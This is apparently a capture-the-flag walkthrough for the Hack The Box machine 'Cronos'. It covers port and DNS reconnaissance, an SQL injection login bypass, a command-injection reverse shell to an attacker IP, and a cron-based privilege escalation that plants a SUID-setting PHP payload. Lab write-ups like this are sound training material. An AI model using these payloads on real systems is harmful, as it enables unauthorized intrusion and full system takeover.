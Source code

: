 # Cronos

## Scanning

furious 10.10.10.13
sudo nmap -sC -sV -sS -p22,53,80 -Pn -n 10.10.10.13 -oN targeted
![0129.png](0129.png)
# 80

whatweb 10.10.10.13

![0121.png](0121.png)

## using nmap to fuzze the web
nmap --script http-enum.nse -p 80 10.10.10.13 -oN webScan

to analize the capture
```bash
sudo tcpdump -i tun0 -w Captura -v

# ctrl + c

tshark -r Captura -Y 'http.request.method=="GET"' -Tjson 2>/dev/null | grep "GET" | sed 's/^ *//' | tr -d '"' | grep '^GET' | awk '{print $2}'| sort -u
```

# 53

```bash
nslookup
>server 10.10.10.13
>10.10.10.13
13.10.10.10.in-addr.arpa		name = ns1.cronos.htb.
>
```

copy cronos.htb on hosts file
![0229.png](0229.png)

we enter to the site cronos.htb in google chrome
![1433.png](1433.png)

nmap --script http-enum.nse -p 80 cronos.htb

![0254.png](0254.png)

dig @10.10.10.13 cronos.htb ns
![1423.png](1423.png)

dig @10.10.10.13 cronos.htb mx
![1439.png](1439.png)

dig @10.10.10.13 cronos.htb any
![1438.png](1438.png)

we add admin.cronos.htb into the hosts file and enter with google chrome
![1457.png](1457.png)
you could use to enter
```
'or 1=1 -- -
```
![1534.png](1534.png)
```bash
#on attacker machine
nc -lvp 4444

#on the web page
127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.6/4444 0>&1'
```
![1608.png](1608.png)

cat /home/noulis/user.txt

## privilege scalation
cat /etc/cron*
![1717.png](1717.png)
```bash
mv /var/www/laravel/artisan /var/www/laravel/artisan.bkup
echo "<?php shell_exec('chmod +s /bin/bash') ?>" > /var/www/laravel/artisan
bash -p
cat /root/root.txt
```
